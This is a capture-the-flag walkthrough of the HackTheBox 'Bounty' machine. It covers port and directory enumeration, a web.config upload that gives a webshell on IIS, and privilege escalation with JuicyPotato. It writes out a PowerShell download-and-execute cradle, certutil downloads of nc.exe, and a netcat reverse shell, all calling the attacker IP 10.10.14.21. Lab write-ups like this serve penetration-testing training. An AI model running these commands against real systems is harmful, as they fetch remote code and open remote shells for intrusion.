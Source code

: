 ## Bounty

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.93 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/e01de28f-076d-46fe-aa0f-a339761021e4)

<br>

Enumerating directories with different extensions, we find a file upload page (transfer.aspx).

```
gobuster dir -u http://10.10.10.93 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 40 -x js,html,pdf,zip,asp,aspx,bak,txt,py
```

![gobuster](https://github.com/b1d0ws/OSCP/assets/58514930/cadd282c-a6e0-46a8-99da-dd42f08e67e4)

<br>

Since we are dealing with a IIS Server, we can upload a [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config/web.config) file to get a webshell.  

If we try to upload .exe and other extensions, we got blocked. This could be enumerated with Burp Repeater and common extensions as config, aspx, php, php7, asp, pl, cgi, exe.

```
http://bounty.htb/uploadedfiles/web.config?cmd=dir

powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/Invoke-PowerShellTcp.ps1')
```

![transferASPX](https://github.com/b1d0ws/OSCP/assets/58514930/3f602895-841a-48f4-92bf-76477494ff51)

![webConfig](https://github.com/b1d0ws/OSCP/assets/58514930/d0b32c73-ffe1-41a1-91a3-a5d953fefe1e)

<br>

The flag is hidden so we need to use the command below to reveal it.

```
Get-ChildItem . -Force
```

![gettingFlag](https://github.com/b1d0ws/OSCP/assets/58514930/c59c89a3-26fd-4dc4-8f07-c783e83b03de)

<br>

### Root Flag

Enumerating privileges, our user has SeImpersonatePrivilege enabled.

```
whoami /priv
```

![privileges](https://github.com/b1d0ws/OSCP/assets/58514930/67f57409-7998-4fc4-9955-667feb6b7371)

<br>

We can exploit this with JuicyPotato.

```
# Checking architecture
$Env:PROCESSOR_ARCHITECTURE
AMD64

cp /usr/share/windows-resources/binaries/nc.exe .
certutil -urlcache -f http://10.10.14.21/nc.exe nc.exe

certutil -urlcache -f http://10.10.14.21/JuicyPotato.exe JuicyPotato.exe

.\JuicyPotato.exe -l 4444 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\windows\Temp\nc.exe -e cmd.exe 10.10.14.21 3333" -t *
```
